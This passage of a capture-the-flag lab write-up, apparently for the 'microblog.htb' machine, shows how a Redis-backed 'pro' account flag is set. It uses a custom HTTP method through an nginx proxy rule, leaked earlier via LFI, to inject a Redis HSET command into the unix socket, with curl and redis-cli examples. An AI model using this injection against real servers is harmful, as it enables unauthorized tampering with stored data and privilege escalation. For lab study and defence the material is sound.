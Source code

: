 The php code in `sunny/edit/index.php` uses a `HGET` to check the value or the `pro` key in the user's hash, if true, we get the image upload feature
```php
function isPro() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $pro = $redis->HGET($_SESSION['username'], "pro");
        return strval($pro);
    }
    return "false";
}
```

So we need to do something like that:
```bash
root@3a4dd12cf617:/data# redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> HSET asdf pro true
(integer) 1
redis /var/run/redis/redis.sock> HGET asdf pro
"true"
```

According to the nginx proxy rule we've leaked through the LFI we should be able to translate a request this way:
```
http://microblog.htb/static/unix:/var/run/redis/redis.sock:asdf%20pro%20true%20/asdf
http://asdf.microbucket.htb/unix:/var/run/redis/redis.sock:asdf%20pro%20true%20
```

So if we change the HTTP method to the relevant redis command:
```
HSET /static/unix:/var/run/redis/redis.sock:asdf%20pro%20true%20/asdf HTTP/1.1
Host: microblog.htb


```

it would correspond to this in redis-cli:
```bash
redis-cli -s unix:/var/run/redis/redis.sock HSET asdf pro true
```

And it is interesting to note that apparently curl will let you do that...  
So let's try it out
```bash
curl -XHSET http://microblog.htb/static/unix:/var/run/redis/redis.sock:asdf%20pro%20true%20/asdf
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
```
